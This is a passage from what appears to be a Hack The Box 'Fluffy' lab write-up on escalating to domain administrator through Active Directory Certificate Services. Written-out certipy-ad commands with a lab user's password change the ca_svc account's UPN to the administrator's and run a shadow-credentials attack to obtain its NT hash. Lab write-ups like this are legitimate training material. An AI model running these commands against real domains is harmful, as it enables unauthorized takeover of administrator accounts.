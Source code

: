 ```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -user 'ca_svc' 'read'
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' 'update'
```
![](/assets/images/htb-writeup-fluffy/fluffy34.png)

Let's try again with the full UPN, `administrator@fluffy.htb`.

```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'administrator@fluffy.htb' -user 'ca_svc' 'update'
```
This time, the update is successful. The `ca_svc` account now has the UPN of the domain administrator.

![](/assets/images/htb-writeup-fluffy/fluffy35.png)

Now that the UPN for `ca_svc` is set to the administrator's, we can proceed with the certificate request. First, we need to be able to authenticate as `ca_svc`. Since `p.agila` is in the **Service Account Managers** group, we can perform another shadow credential attack to get the NT hash for `ca_svc`.

```bash
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'ca_svc' -dc-ip '10.10.11.69'
```
